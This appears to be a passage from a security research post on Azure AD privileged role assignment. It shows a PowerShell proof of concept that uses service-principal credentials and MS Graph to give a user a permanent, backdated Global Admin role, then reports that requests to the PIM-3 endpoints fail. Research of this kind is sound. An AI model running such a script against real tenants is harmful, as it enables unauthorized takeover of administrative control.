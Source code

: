 ```
# Set SP info
$tid = ''
$appId = ''
$password = ''

# Set user info
$userId = ''

# Acquire MS Graph access token
$securePassword = ConvertTo-SecureString -String $password -AsPlainText -Force
$credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $appId, $securePassword
Connect-AzAccount -ServicePrincipal -TenantId $tid -Credential $credential
$token = (Get-AzAccessToken -ResourceTypeName MSGraph).Token

# Request active PIM role assignment 
$roleDefinitionId = '62e90394-69f5-4237-9190-012177145e10' # current: Global Admin (replace with any role Id)
$yesterday = (get-date).AddDays(-1).ToString("yyyy-MM-ddTHH:mm:ss.000Z")
$uri = 'https://graph.microsoft.com/beta/roleManagement/directory/roleAssignmentScheduleRequests'
$headers = @{
    'Authorization'= "Bearer $token"
    'Content-Type' = 'application/json'
}

$activeAssignment = @{
    action = 'adminAssign'
    justification = 'PoC'
    roleDefinitionId = $roleDefinitionId
    directoryScopeId = '/'
    principalId = $userId
    scheduleInfo = @{
        startDateTime = $yesterday
        expiration = @{
            type = 'NoExpiration'
        }
    }
}

$body = ConvertTo-Json -InputObject $activeAssignment
$response = Invoke-WebRequest -Method Post -Uri $uri -Headers $headers -Body $body
$response
```

Unfortunately, all attempts to PIM-3 endpoints return an error message similar to the following, which indicates that the [`PrivilegedAccess.ReadWrite.AzureAD`](https://learn.microsoft.com/en-us/graph/permissions-reference#privilegedaccessreadwriteazuread) permission is **not** in the list of authorized application permissions for the endpoints in that iteration of the service:
